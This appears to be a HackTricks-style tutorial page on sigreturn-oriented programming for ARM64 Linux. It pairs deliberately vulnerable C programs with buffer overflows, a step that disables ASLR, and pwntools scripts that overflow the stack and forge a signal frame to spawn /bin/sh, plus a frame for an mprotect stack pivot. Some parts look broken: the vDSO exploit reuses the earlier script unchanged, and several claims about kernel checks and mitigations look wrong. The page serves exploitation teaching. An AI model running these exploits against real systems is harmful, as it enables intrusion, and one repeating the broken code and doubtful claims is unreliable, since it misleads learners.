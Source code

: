 # 


## Pwntools example

This example is creating the vulnerable binary and exploiting it. The binary **reads into the stack** and then calls **`sigreturn`**:

```python
from pwn import *

binsh = "/bin/sh"
context.clear()
context.arch = "arm64"

asm = ''
asm += 'sub sp, sp, 0x1000\n'
asm += shellcraft.read(constants.STDIN_FILENO, 'sp', 1024) #Read into the stack
asm += shellcraft.sigreturn() # Call sigreturn
asm += 'syscall: \n' #Easy symbol to use in the exploit
asm += shellcraft.syscall()
asm += 'binsh: .asciz "%s"' % binsh #To have the "/bin/sh" string in memory
binary = ELF.from_assembly(asm)

frame = SigreturnFrame()
frame.x8 = constants.SYS_execve
frame.x0 = binary.symbols['binsh']
frame.x1 = 0x00
frame.x2 = 0x00
frame.pc = binary.symbols['syscall']

p = process(binary.path)
p.send(bytes(frame))
p.interactive()
```
```
## bof example

### Code

```c
#include <stdio.h>
#include <string.h>
#include <unistd.h>

void do_stuff(int do_arg){
    if (do_arg == 1)
        __asm__("mov x8, 0x8b; svc 0;");
    return;
}

char* vulnerable_function() {
    char buffer[64];
    read(STDIN_FILENO, buffer, 0x1000); // <-- bof vulnerability

    return buffer;
}

char* gen_stack() {
    char use_stack[0x2000];
    strcpy(use_stack, "Hello, world!");
    char* b = vulnerable_function();
    return use_stack;
}

int main(int argc, char **argv) {
    char* b = gen_stack();
    do_stuff(2);
    return 0;
}
```
```
Compile it with:

```bash
clang -o srop srop.c -fno-stack-protector
echo 0 | sudo tee /proc/sys/kernel/randomize_va_space  # Disable ASLR
```
```
## Exploit

The exploit abuses the bof to return to the call to **`sigreturn`** and prepare the stack to call **`execve`** with a pointer to `/bin/sh`.

```python
from pwn import *

p = process('./srop')
elf = context.binary = ELF('./srop')
libc = ELF("/usr/lib/aarch64-linux-gnu/libc.so.6")
libc.address = 0x0000fffff7df0000 # ASLR disabled
binsh = next(libc.search(b"/bin/sh"))

stack_offset = 72

sigreturn = 0x00000000004006e0 # Call to sig
svc_call = 0x00000000004006e4  # svc    #0x0

frame = SigreturnFrame()
frame.x8 = 0xdd            # syscall number for execve
frame.x0 = binsh
frame.x1 = 0x00             # NULL
frame.x2 = 0x00             # NULL
frame.pc = svc_call

payload = b'A' * stack_offset
payload += p64(sigreturn)
payload += bytes(frame)

p.sendline(payload)
p.interactive()
```
```
## bof example without sigreturn

### Code

```c
#include <stdio.h>
#include <string.h>
#include <unistd.h>

char* vulnerable_function() {
    char buffer[64];
    read(STDIN_FILENO, buffer, 0x1000); // <-- bof vulnerability

    return buffer;
}

char* gen_stack() {
    char use_stack[0x2000];
    strcpy(use_stack, "Hello, world!");
    char* b = vulnerable_function();
    return use_stack;
}

int main(int argc, char **argv) {
    char* b = gen_stack();
    return 0;
}
```
```
## Exploit

In the section **`vdso`** it's possible to find a call to **`sigreturn`** in the offset **`0x7b0`**:

![[../../../images/image (17) (1).png]]


Therefore, if leaked, it's possible to **use this address to access a `sigreturn`** if the binary isn't loading it:

```python
from pwn import *

p = process('./srop')
elf = context.binary = ELF('./srop')
libc = ELF("/usr/lib/aarch64-linux-gnu/libc.so.6")
libc.address = 0x0000fffff7df0000 # ASLR disabled
binsh = next(libc.search(b"/bin/sh"))

stack_offset = 72

sigreturn = 0x00000000004006e0 # Call to sig
svc_call = 0x00000000004006e4  # svc    #0x0

frame = SigreturnFrame()
frame.x8 = 0xdd            # syscall number for execve
frame.x0 = binsh
frame.x1 = 0x00             # NULL
frame.x2 = 0x00             # NULL
frame.pc = svc_call

payload = b'A' * stack_offset
payload += p64(sigreturn)
payload += bytes(frame)

p.sendline(payload)
p.interactive()
```
```
For more info about vdso check:

[[../ret2vdso.md]]

And to bypass the address of `/bin/sh` you could create several env variables pointing to it, for more info:

[[../../common-binary-protections-and-bypasses/aslr/]]

---

## Finding `sigreturn` gadgets automatically (2023-2025)

On modern distributions the `sigreturn` trampoline is still exported by the **vDSO** page but the exact offset may vary across kernel versions and build flags such as BTI (`+branch-protection`) or PAC.  Automating its discovery prevents hard-coding offsets:

```bash
# With ROPgadget ≥ 7.4
python3 -m ROPGadget --binary /proc/$(pgrep srop)/mem --only "svc #0" 2>/dev/null | grep -i sigreturn

# With rp++ ≥ 1.0.9 (arm64 support)
rp++ -f ./binary --unique -r | grep "mov\s\+x8, #0x8b"   # 0x8b = __NR_rt_sigreturn
```
```
Both tools understand **AArch64** encodings and will list candidate `mov x8, 0x8b ; svc #0` sequences that can be used as the *SROP gadget*.

> Note: When binaries are compiled with **BTI** the first instruction of every valid indirect branch target is `bti c`.  `sigreturn` trampolines placed by the linker already include the correct BTI landing pad so the gadget remains usable from unprivileged code.

## Chaining SROP with ROP (pivot via `mprotect`)

`rt_sigreturn` lets us control *all* general-purpose registers and `pstate`.  A common pattern on x86 is: 1) use SROP to call `mprotect`, 2) pivot to a new executable stack containing shell-code.  The exact same idea works on ARM64:

```python
frame = SigreturnFrame()
frame.x8 = constants.SYS_mprotect   # 226
frame.x0 = 0x400000                # page-aligned stack address
frame.x1 = 0x2000                  # size
frame.x2 = 7                       # PROT_READ|PROT_WRITE|PROT_EXEC
frame.sp = 0x400000 + 0x100        # new pivot
frame.pc = svc_call                # will re-enter kernel
```
```
After sending the frame you can send a second stage containing raw shell-code at `0x400000+0x100`.  Because **AArch64** uses *PC-relative* addressing this is often more convenient than building large ROP chains.

## Kernel validation, PAC & Shadow-Stacks

Linux 5.16 introduced stricter validation of userspace signal frames (commit `36f5a6c73096`).  The kernel now checks:

* `uc_flags` must contain `UC_FP_XSTATE` when `extra_context` is present.
* The reserved word in `struct rt_sigframe` must be zero.
* Every pointer in the *extra_context* record is aligned and points inside the user address space.

`pwntools>=4.10` crafts compliant frames automatically, but if you build them manually make sure to zero‐initialize *reserved* and omit the SVE record unless you really need it—otherwise `rt_sigreturn` will deliver `SIGSEGV` instead of returning.

Starting with mainstream Android 14 and Fedora 38, userland is compiled with **PAC** (*Pointer Authentication*) and **BTI** enabled by default (`-mbranch-protection=standard`).  *SROP* itself is unaffected because the kernel overwrites `PC` directly from the crafted frame, bypassing the authenticated LR saved on the stack; however, any **subsequent ROP chain** that performs indirect branches must jump to BTI-enabled instructions or PACed addresses.  Keep that in mind when choosing gadgets.

Shadow-Call-Stacks introduced in ARMv8.9 (and already enabled on ChromeOS 1.27+) are a compiler-level mitigation and *do not* interfere with SROP because no return instructions are executed—the flow of control is transferred by the kernel.

## References

* [[https://docs.kernel.org/arch/arm64/signal.html|Linux arm64 signal handling documentation]]
* [[https://lwn.net/Articles/915041/|LWN – "AArch64 branch protection comes to GCC and glibc" (2023)]]

